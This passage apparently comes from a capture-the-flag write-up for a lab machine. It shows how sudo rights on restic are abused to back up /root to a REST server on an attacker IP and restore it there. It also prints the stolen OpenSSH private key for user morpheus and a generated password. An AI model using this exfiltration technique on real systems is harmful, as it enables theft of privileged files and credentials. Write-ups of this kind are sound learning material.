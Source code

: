 ```
LFILE=file_or_dir_to_get
NAME=backup_name
sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
```

So our payload would be 
`sudo restic backup -r "rest:http://10.10.16.16:12345/mystolenrepo" /root`

Let's exploit it
```
Attacter machine:
mkdir -p ~/rest-repo/mystolenrepo
/opt/rest-server/rest-server \
  --path ~/rest-repo \
  --listen :12345 \
  --no-auth

Target machine:
export RESTIC_PASSWORD=yourpassword
sudo restic init -r rest:http://10.10.16.16:12345/mystolenrepo
export RESTIC_PASSWORD=yourpassword
sudo restic backup -r rest:http://10.10.16.16:12345/mystolenrepo /root


Attcaker machine:
export RESTIC_REPOSITORY=rest:http://localhost:12345/mystolenrepo
export RESTIC_PASSWORD=yourpassword
restic snapshots
restic restore latest --target ./recovered
```
Then we can successfully get the ssh credit of `morpheus`
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQS/TfMMhsru2K1PsCWvpv3v3Ulz5cBP
UtRd9VW3U6sl0GWb0c9HR5rBMomfZgDSOtnpgv5sdTxGyidz8TqOxb0eAAAAqOeHErTnhx
K0AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9N8wyGyu7YrU+w
Ja+m/e/dSXPlwE9S1F31VbdTqyXQZZvRz0dHmsEyiZ9mANI62emC/mx1PEbKJ3PxOo7FvR
4AAAAhAIUBairunTn6HZU/tHq+7dUjb5nqBF6dz5OOrLnwDaTfAAAADWZseEBibGFja2xp
c3QBAg==
-----END OPENSSH PRIVATE KEY-----

```
Then we can get the shell as `morpheus`

We want to check `sudo -l`, but we did not have any credits of this user, so I would continue to enumerate the file system.
Then I found a interesting file `/opt/neo-password-generator/neo-password-generator`
It's a binary file and we can run it to check what is the output
```
morpheus@whiterabbit:/opt/neo-password-generator$ ./neo-password-generator 
f0mHXv2ZJNGTduO5q37N
```
It seems like a password of user `neo`, but I try to use it to login, but it did not work.
